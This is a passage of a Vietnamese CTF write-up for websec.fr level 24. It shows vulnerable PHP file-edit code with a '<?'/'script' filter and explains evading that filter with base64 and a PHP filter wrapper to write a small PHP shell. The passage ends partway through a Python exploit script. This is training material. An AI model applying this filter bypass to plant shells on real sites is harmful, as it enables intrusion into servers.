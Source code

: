 ![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/329719001_1403439540404244_6218750567474320363_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=iIhTLTn9LAkAX_duKFp&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSHgSPUtrnmps2IpEYQZFkjkvwGtDM40OnDfWxFo869Ww&oe=6423F397)
```Php
if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
```
Sau khi tạo file xong thì mình cần tạo nội dung cho file.Ở đây nó đã lọc các ký tự `<?,script`.

Với hàm `strpos` nó kiểm tra xem chuỗi `<?` có tồn tại trong data không,nếu có thì return `true`.

Mà đang xét `strpos($data,'<?)===false` vì thế để điều kiện đúng thì chuỗi  `<?` không được nằm trong `$data`

Với hàm `stripos` thì tương tự như `strpos` nhưng nó không phân biệt chữ hoa chữ thường.

Để chèn shell php thì mình cần phải có chuỗi `<?`,sau một lúc suy nghĩ không ra  mình lên mạng search xem thì có cách là dùng `wrappers`.

Đó là mình nhập data đã mã hóa và khi gửi lên mình cần mã hóa ngược lại.

Mình tạo 1 file php `shell.php`
```Php
<?php 
echo "hacked";
?>
// khi encode sẽ thành là 
// PD9waHAgCmVjaG8gImhhY2tlZCI7Cj8+
```
Sau khi up lên mình cần chỉnh file name để có thế `decode` lại được

Dùng `burpsuite` để sửa request sẽ là:
![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/333584463_1400441273829343_9025077661547208896_n.png?_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=_3dTXGYiZyUAX8PMfXl&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQL_bwTOSKyMazWMm75L_yOsHot7sUtUwRD8YAindENtg&oe=6426DC68)

Bây giờ mình cần chạy shell:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/332135716_687205076538584_1590923894014400211_n.png?_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=sRU3U5vUNzEAX-xYgoy&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdT57a7JUkftvxIArQctjVmnN7-hL3P2mx5NuPvjPpB1-Q&oe=6426E66D)

Như vậy chúng ta đã chạy shell thành công và cần tìm file chứa flag.

Mình thấy mỗi lần thử phải `encode` nên mình có viết script để nhanh hơn.
#### Python
```Python
import requests
import base64

header = {"Cookie":"PHPSESSID=2epup0ad23d2o6ufsks4bg24gtkm5103"}
def exploit(payload,payload2):

    url = "http://websec.fr/level24/index.php?p=edit&filename="+payload

    headers=header

    data = {"data":payload2}

```
